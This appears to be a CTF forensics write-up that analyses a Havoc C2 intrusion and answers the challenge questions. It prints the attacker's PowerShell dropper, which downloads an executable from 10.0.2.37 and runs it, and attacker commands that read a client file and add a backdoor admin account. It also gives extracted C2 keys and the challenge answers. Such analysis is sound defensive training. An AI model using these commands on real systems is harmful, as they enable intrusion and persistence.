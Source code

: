 - **install.ps1**
![](../../Image/Pasted%20image%2020250423105618.png)
```
$aysXS8Hlhf = "http://10.0.2.37:1337/notepad.exe";
$LA4rJgSPpx = "C:\Users\paco\Downloads\notepad.exe";
Invoke-WebRequest -Uri $aysXS8Hlhf -OutFile $LA4rJgSPpx;
$65lmAtnzW8 = New-ObjectSystem.Net.WebClient;$65lmAtnzW8.DownloadFile($aysXS8Hlhf, $LA4rJgSPpx);
Start-Process -Filepath $LA4rJgSPpx
```

- **Object list:**
![](../../Image/Pasted%20image%2020250423105656.png)

- **notepad.exe**
![](../../Image/Pasted%20image%2020250423105643.png)

- **Havoc Artifact** from network traffic
```
[+] Parsing Request
[+] Found Havoc C2
  [-] Agent ID: 0e9fb7d8
  [-] Magic Bytes: deadbeef
  [-] C2 Address: http://10.0.2.37/
  [+] Found AES Key
    [-] Key: 946cf2f65ac2d2b868328a18dedcc296cc40fa28fab41a0c34dcc010984410ca
    [-] IV: 8cd00c3e349290565aaa5a8c3aacd430
```
## IOCs
#### **IP Address**
- hxxp[:]//10.0.2.37
#### **File**
- /install.ps1
- /notepad.exe
- /notepad.exe

---
## Answer the question

- What is the SID of the user that the attacker is executing everything under?

![](../../Image/Pasted%20image%2020250423101528.png)

- What is the Link-local IPv6 Address of the server? Enter the answer exactly as you see it.

![](../../Image/Pasted%20image%2020250423105228.png)
=> **fe80::e134:1b0c:c8d5:3020%6**

- The attacker printed a flag for us to see. What is that flag?

![](../../Image/Pasted%20image%2020250423105244.png)

- The attacker added a new account as a persistence mechanism. What is the username and password of that account? Format is **username:password** 

![](../../Image/Pasted%20image%2020250423105304.png)
```
dir C:\Users\paco\Desktop\
type C:\Users\paco\Desktop\Files\clients.csv
ipconfig
net user administrator WfD3hz3AXZ4n /add
```

- The attacker found an important file on the server. What is the full path of that file?

![](../../Image/Pasted%20image%2020250423105347.png)
=> **C:\Users\paco\Desktop\Files\clients.csv**

- What is the flag found inside the file from question 5?

![](../../Image/Pasted%20image%2020250423105335.png)
=> **C:\Users\paco\Desktop\Files\clients.csv**

